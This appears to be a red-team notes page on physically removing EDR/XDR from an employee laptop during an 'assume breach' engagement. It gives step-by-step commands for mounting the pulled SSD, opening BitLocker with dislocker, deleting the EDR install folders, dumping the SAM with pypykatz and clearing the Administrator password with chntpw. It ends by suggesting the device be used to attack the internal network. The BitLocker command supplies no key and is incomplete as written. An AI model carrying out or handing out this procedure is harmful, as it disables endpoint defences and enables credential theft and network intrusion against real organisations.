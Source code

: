 ```yaml
---
description: Remove EDR and XDR via Physical Attack
---
```


# Physical Attack: Remove EDR

Okay, let’s assume you are on an Assume Breach engagement. The client provides you with an employee’s laptop or computer that is already standardized with endpoint security, such as EDR or XDR. You can try this approach to completely disable the EDR from the device:

1. Unplug the internal SSD or hard disk from the employee's laptop.
2. Boot into your Linux OS and treat the employee’s SSD as an external drive.
3. Then, run this command:

Check Encryption Type

```bash
lsblk /dev/xxx -o NAME,FSTYPE
```

BitLocker Encryption Decrypt

```bash
mkdir /mnt/bitlocker
mkdir /mnt/bitlocker_unlocked
dislocker -V /dev/nvme0n1p3 -- /mnt/bitlocker # assume C: drive on this location)
mount -o loop /mnt/bitlocker/dislocker-file /mnt/bitlocker_unlocked/
ls -la /mnt/bitlocker_unlocked/
```

Remove EDR

```bash
cd /mnt/bitlocker_unlocked/
rm -rf "Program Files/EDR Product"
rm -rf "Program Files(x86)/EDR Product"
```

Dump SAM

```bash
cd /mnt/bitlocker_unlocked/Windows/System32/config
pypykatz registry --sam SAM --security SECURITY SYSTEM 
```

Remove Local Admin password:

```bash
cd /mnt/bitlocker_unlocked/Windows/System32/config
chntpw -l SAM
chntpw -u Administrator SAM
```

4. Put the drive back into the employee’s laptop.
5. Boot into Windows and log in as an Administrator.
6. Promote your user account to Local Administrator.
7. If NDR (Network Detection and Response) is not implemented, you can use the device to attack the internal network. This is because the device remains connected to the internal network, but with EDR and XDR removed.
